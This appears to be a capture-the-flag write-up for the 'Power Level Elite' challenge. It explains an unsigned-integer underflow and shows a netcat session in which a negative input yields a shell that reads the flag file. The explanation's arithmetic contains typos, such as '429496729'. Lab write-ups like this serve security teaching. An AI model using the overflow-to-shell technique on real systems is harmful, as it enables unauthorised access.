


# Power Level Elite

### Description





## Solution

In short take the max value of unit 429496729, add one (to overflow to 0), minus 313371337. This value is 1161235959.

For an unsigned integer (with no negative numbers), 0 - 1161235959 underflows (loops around) to 313371337.

```
base) [hacker@hackerbook ~]$ nc 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg 30501
 ___  _     _  _    _  ___  _   _  ___  ___  ___   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   || ||     ||  | |  ||     _||   _   ||   | ||  
|   || ||       ||       |  |   |  |  ||  |  |   |  |  | |  ||   |||
|    _||       ||  _    |  |   |  |       |  |   |  |  ||  ||    _  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|_|    |_| ||||  |_|  |_|  |__|  |_|  |__||_|  ||

=========================================================================
                         Stage 1: Power Level Elite
=========================================================================
Current Power Level: 0
Power up => 1161235959
You're too weak to do that!
(base) [hacker@hackerbook ~]$ nc 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg 30501
 ___  _     _  _    _  ___  _   _  ___  ___  ___   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   || ||     ||  | |  ||     _||   _   ||   | ||  
|   || ||       ||       |  |   |  |  ||  |  |   |  |  | |  ||   |||
|    _||       ||  _    |  |   |  |       |  |   |  |  ||  ||    _  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|_|    |_| ||||  |_|  |_|  |__|  |_|  |__||_|  ||

=========================================================================
                         Stage 1: Power Level Elite
=========================================================================
Current Power Level: 0
Power up => -1161235959
Powering up...

You are truly an elite!
whoami
powerlevelelite
cd /home/
ls
powerlevelelite
cd powerlevelelite
ls
Makefile
flag.txt
main.c
powerlevelelite
cat flag.txt
CTFSG{why_st0p_4t_9000_wh3n_y0u_c4n_d0_3133731337}
```

## Flag
`CTFSG{why_st0p_4t_9000_wh3n_y0u_c4n_d0_3133731337}`
